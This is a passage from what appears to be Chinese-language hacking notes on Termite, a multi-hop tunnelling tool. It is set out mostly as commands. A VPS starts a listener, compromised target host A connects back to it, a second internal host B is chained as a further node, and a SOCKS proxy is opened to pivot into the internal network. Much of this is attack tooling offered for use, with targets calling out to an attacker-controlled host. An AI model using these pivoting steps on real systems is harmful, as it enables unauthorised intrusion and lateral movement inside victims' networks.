 2. Termite

基本步骤如下：

```bash
VPS: ./agent_exe -l 888
A主机: ./agent_exe -c [139.x.x.113] -p 888
VPS: ./admin_exe -c 127.0.0.1 -p 888
goto 2
listen 999
B主机: ./agent_exe -c 10.48.128.49 -p 999
此时B主机节点是3
goto 3 
socks 10800
```

**例子：**

0x01 在vps(10.10.10.147)上开启节点：

```bash
./agent_Linux64 -l 1234
```

0x02 在本地主机上，使用admin程序连接、管理：

```bash
C:\Users\Tim\Desktop\Tunna-master>C:\Users\Tim\Desktop\Termite\admin_Win32.exe -c 10.10.10.147 -p 1234
```

![](/img/hack/%E4%BB%A3%E7%90%86/Termite/%E4%BA%8C%E7%BA%A7%E7%BD%91%E7%BB%9C_%E6%9C%AC%E5%9C%B0%E4%B8%BB%E6%9C%BAadmin%E8%BF%9E%E6%8E%A5vps.png)

0x03 在目标机器A上执行：

```bash
C:\Users\win2k8_web\Desktop\Termite>agent_Win32.exe -c 10.10.10.147 -p 1234
```

![](/img/hack/%E4%BB%A3%E7%90%86/Termite/%E4%BA%8C%E7%BA%A7%E7%BD%91%E7%BB%9C_%E7%9B%AE%E6%A0%87%E6%9C%BA%E5%99%A8A%E6%88%90%E4%B8%BA%E8%8A%82%E7%82%B9.png)
